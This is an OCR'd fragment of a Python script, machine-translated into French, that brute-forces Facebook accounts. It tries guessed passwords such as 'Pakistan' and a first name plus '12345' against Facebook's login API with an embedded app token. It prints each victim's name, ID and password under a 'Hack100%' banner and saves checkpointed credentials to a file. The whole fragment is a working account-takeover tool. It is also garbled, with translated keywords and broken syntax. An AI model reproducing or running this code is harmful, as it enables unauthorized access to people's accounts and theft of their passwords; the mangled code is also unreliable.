 						                       si 'access_token' dans q:	
						                               x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                                               z = json.loads (x.text)
						                               imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '						
						                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']							
						                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur					
						                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe5 + '\ n'							
						                               oks.append (utilisateur + pass5)	
                                                                       autre:
			                                                       si 'www.facebook.com' dans q ["error_msg"]:
				                                                   imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe5 + '\ n'
				                                                   cek = open ("out / super_cp.txt", "a")
				                                                   cek.write ("ID:" + utilisateur + "Pw:" + pass5 + "\ n")
				                                                   cek.close ()
				                                                   cekpoint.append (utilisateur + pass5)					
						                               autre:								
							                           pass6 = 'Pakistan'											
			                                                           data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & utilisateur + mot de passe = 6 " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                           q = json.load (données)												
			                                                           si 'access_token' dans q:	
								                           x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                                                           z = json.loads (x.text)
				                                                           imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '											
				                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']											
				                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur									
				                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe6 + '\ n'											
				                                                           oks.append (utilisateur + pass6)
                                                                                   autre:
			                                                                   si 'www.facebook.com' dans q ["error_msg"]:
				                                                               imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe6 + '\ n'
				                                                               cek = open ("out / super_cp.txt", "a")
				                                                               cek.write ("ID:" + utilisateur + "Pw:" + pass6 + "\ n")
				                                                               cek.close ()
				                                                               cekpoint.append (utilisateur + pass6)	
						                                           autre:							
								                               pass7 = b ['first_name'] + '12345'						
								                               data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & utilisateur + mot_de_passe = 2 " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load (données)						
								                               si 'access_token' dans q:		
				                                                                       x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                                                                       z = json.loads (x.text)
									                               imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '					
									                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']					
